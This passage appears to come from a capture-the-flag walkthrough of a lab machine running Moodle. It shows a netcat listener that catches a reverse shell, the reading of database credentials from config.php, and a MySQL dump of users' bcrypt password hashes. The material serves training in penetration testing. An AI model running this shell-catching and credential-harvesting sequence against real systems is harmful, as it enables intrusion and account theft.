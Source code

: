 ```
$ stty raw -echo;fg
nc -lnvp 7575

55 cols 235d /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ stty rows
```

## User
### Database

After doing some enumeration on the machine we are able to find database credentials in `/usr/local/www/apache24/data/moodle/config.php`. Using these credentials we are able to retrieve the password hashes from the moodle database.

```
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ /usr/local/bin/mysql -u moodle -D moodle  -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 657
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [moodle]>  select username,password from mdl_user;
+-------------------+--------------------------------------------------------------+
| username          | password                                                     |
+-------------------+--------------------------------------------------------------+
| guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
| bell_oliver89     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
| orchid_sheila89   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
| chard_ellzabeth89 | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
| morris_jake89     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
| heel_james89      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
| nash_michael89    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
| singh_rakesh89    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
| taint_marcus89    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
| walls_shaun89     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
| smith_john89      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
| white_jack89      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
| travis_carl89     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
| mac_amy89         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
| james_boris89     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
| pierce_allan      | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
| henry_william89   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
| harper_zoe89      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
| wright_travis89   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
| allen_matthew89   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
| sanders_wallis89  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
| higgins_jane      | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
| phillips_manuel   | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
| carter_lianne     | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
| parker_dan89      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
| parker_tim89      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
| sm1l3z            | $2y$10$UZi9q.8k4va9A2JzhQIKgecCBC54EDyIlEKygtaspINhP91mcWPY. |
+-------------------+--------------------------------------------------------------+
28 rows in set (0.00 sec)
```
